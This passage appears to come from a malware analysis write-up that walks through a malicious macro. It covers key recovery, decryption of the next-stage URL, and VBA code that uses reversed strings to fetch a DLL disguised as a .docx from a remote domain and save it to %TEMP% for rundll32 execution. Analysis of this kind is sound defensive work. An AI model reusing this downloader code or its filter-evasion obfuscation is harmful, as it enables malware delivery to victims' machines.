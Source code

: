 We can also get the master key by putting a break at the return for
`TryAllKeys`, and then using their own `BytesToString` function:

    
    
    print BytesToString(TryAllKeys)
    fb44099ff229b629
    

### 2\. Decrypt String

With the master key decrypted, the code can now decrypt the url for the next
stage payload:

    
    
        ciphertext = Decode64(payload)
        bPlaintext = XorDecryptAndVerifyCRC(masterKey, ciphertext)
        sPlaintext = BytesToString(bPlaintext)
    
        zzz = sPlaintext
    

Breaking at this point gives us the next stage: `https://gdpr-
datagroup.com/documents/additional-document-tempalates.docx`.

Unfortunately (though not surprisingly), the link is no longer active.

### 3\. Get the Binary

The next block of code gets the binary. While the url indicates this is a
.docx, we’ll see it is actually a .dll executable file.

    
    
        Dim ampleMacarons
        Dim bStrm
        Dim filename
        Set ampleMacarons = CreateObject(StrReverse("PTTHLMX.tfosorciM"))
        ampleMacarons.Open "GET", zzz, False
        ampleMacarons.Send
        Set dollop = CreateObject(StrReverse("maertS.bdodA"))
        dollop.Type = 1
        dollop.Open
        dollop.Write ampleMacarons.responseBody
        dstPath = Environ$("TEMP") & "\" & namePrefix & "_" & DateDiff("s", #1/1/1970#, Now()) & nameSuffix
        savePath = dstPath
        dollop.savetofile savePath, 2
    

To avoid filters, this section uses another obfuscation technique, putting all
the strings through a reverse function. These are easy enough to undo by hand,
but may avoid automated filters. The code creates a `Microsoft.XMLHTTP`
object, uses it to issue a get request. Then, it creates a `Adodb.Stream`
objection, which is passes in the response body, and uses that to save to
`%TEMP%\tialdyos_[timestamp count].dll`.

### 4\. Use WMI to create a rundll32 process to run the dll
